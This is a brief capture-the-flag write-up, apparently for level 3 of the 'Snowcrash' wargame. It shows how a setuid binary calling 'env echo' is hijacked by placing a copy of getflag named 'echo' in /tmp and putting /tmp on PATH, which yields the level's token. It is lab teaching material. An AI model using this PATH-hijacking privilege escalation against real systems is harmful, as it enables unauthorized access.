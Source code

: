 # Snowcrash03

There's a suid binary in our home
```sh
level03:~$ ./level03
Exploit me
```


```c
iVar1 = system("/usr/bin/env echo Exploit me");
```
Looking at the code in Ghidra we see that execution uses env, maybe poison it ?
```sh
level03:~$ which getflag
/bin/getflag
level03:~$ cp /bin/getflag /tmp/echo
level03:~$ export PATH=/tmp:
level03:~$ ./level03
Check flag.Here is your token : REDACTED

```
And here it is, without getting in the flag account